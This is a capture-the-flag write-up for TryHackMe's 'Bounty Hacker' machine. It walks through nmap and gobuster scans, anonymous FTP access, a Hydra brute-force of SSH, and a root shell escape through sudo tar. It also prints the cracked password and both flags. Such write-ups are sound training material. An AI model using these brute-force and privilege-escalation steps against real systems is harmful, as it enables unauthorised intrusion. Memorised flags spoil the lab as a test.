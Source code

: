 # Lab Report - Bounty Hacker


# Overview 
---
- **Date**: 04/10/2025
- **Category**: Web, FTP
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
---
>**- An easy boot-to-root machine. 

## Resolution Summary 
---
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.

# Information Gathering 
---
## Active Reconnaissance 
---
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities. 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
---
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant. 

- **We got the following results from `GoBuster`:
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`: 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
---
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command: 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case. 
- **Another reflex would be to use `help` to list the available commands:
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials. 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server: 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
---
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`. 
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`: 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials : 
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using: 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag: 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
---
- **Our goal here was to find a way to escalate our privileges and access the final flag.
- **For started, we tried to see which command we could possibly use with sudo:
```bash
sudo -l
```

- **And here was the result: 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors. 
- **We found the following payload to use: 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using: 
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
---
**User.txt → `THM{CR1M3_SyNd1C4T3}`

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
---
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
---
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
